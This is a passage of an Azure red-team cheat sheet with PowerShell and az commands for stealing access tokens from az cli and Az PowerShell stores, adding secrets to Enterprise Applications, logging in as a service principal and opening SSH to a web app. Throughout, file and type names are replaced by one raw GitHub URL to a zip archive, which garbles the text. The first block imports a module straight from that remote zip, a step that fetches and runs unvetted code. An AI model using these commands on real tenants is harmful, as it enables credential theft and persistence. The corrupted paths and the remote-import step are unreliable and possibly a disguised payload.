 ## Stealing Tokens

* Get-AzurePasswords
    ```powershell
    Import-Module https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
    Get-AzurePasswords
    Get-AzurePasswords -Verbose | Out-GridView
    ```

### Stealing tokens from az cli

* az cli stores access tokens in clear text in **https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip** in the directory `C:\Users\<username>\.Azure`
* https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip in the same directory contains information about subscriptions.

### Stealing tokens from az powershell

* Az PowerShell stores access tokens in clear text in **https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip** in the directory `C:\Users\<username>\.Azure`
* It also stores **ServicePrincipalSecret** in clear-text in **https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip** 
* Users can save tokens using `Save-AzContext`


## Add credentials to all Enterprise Applications

```powershell
# Add secrets
PS > . C:\Tools\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
PS > Add-AzADAppSecret -GraphToken $graphtoken -Verbose

# Use secrets to authenticate as Service Principal
PS > $password = ConvertTo-SecureString '<SECRET/PASSWORD>' -AsPlainText -Force
PS > $creds = New-Object https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip('<AppID>', $password)
PS > Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant '<TenantID>'
```

## Spawn SSH for Azure Web App

```powershell
az webapp create-remote-connection --subscription <SUBSCRIPTION-ID> --resource-group <RG-NAME> -n <APP-SERVICE-NAME>
```

## Azure Storage Blob
